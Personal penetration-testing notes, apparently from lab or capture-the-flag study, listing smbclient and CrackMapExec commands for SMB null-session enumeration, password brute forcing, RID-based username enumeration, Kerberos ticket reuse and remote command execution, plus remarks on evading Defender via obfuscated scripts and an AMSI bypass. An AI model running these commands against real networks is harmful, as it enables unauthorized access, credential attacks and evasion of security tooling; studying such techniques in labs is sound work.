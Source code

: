 
from history, ??
smbclient -L 10.10.11.222
smbclient -h
smbclient //10.10.97.172/profiles
smbclient //10.10.97.172/profiles -U Anonymous
smbclient //10.10.97.172/profiles -U krktgt 
smbclient //10.10.97.172/profiles -u krktgt


------

smb v1 - try eternal blue

`crackmapexec smb 10.10.11.222 -u '' -p ''`
`crackmapexec smb 10.10.11.222 -u 'guest' -p '' --shares`

nullsessions
`cme smb 10.10.10.10`
`cme smb 10.10.10.10 -u '' -p ''`
`cme smb 10.10.10.10 -u 'guest' -p ''`

brute force password
`cme smb 10.10.10.10 -u 'sofia' -p 'password-file'`

enum usernames
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --rid brute`
(rid is the end of the sid)

The same but using Kerberos - Kerberos traffic is more common on the network (the default is NTLM)
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1'`
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' -k`

--use-kcache uses existing Kerberos ticket
`cme smb 10.10.10.10 -u 'sofia' -p 'mypass1' --use-kcache`
get ticket by
`impacket-getTGT -dc-ip 10.10.10.10 domain.LOCAL/usename`
`export KRB5CCNAME= user.ccache`
mostly useful for golden.. tickets
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2'`

Execute commands
-x uses cmd
-X uses ps
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'whoami'`
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -X 'whoami'`

.cme/obfuscated_scripts
can make your own since fingerprinted - defender finds
custom amsi bypass on cme webbpage

or run ps with cmd lol
`cme smb 10.10.10.10 -u 'Administrator' -p 'securepass2' -x 'powershell.exe -c "GCI C:\"'`

continue from [[Al's stream on crackmapexec]]

check [[audrey]]
check [[win  hacking al]]

-M spider_plus
from kristiee